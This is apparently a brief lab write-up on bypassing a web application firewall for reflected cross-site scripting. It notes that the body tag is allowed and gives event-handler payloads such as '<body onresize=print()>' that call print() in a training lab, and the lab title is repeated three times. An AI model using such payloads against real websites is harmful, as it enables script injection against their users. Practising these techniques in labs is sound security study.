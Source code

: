 # Lab: Reflected XSS into HTML context with most tags and attributes blockedLab: Reflected XSS into HTML context with most tags and attributes blockedLab: Reflected XSS into HTML context with most tags and attributes blocked

Task: bypasses the WAF and calls the print() function.

    <> allowed tag
    
    <body> - allowed 
    
```html 
    <body =1></body> OK 
    ```

```html
   <body onbeforeinput=print()> OR <body onresize=print()>
   ```
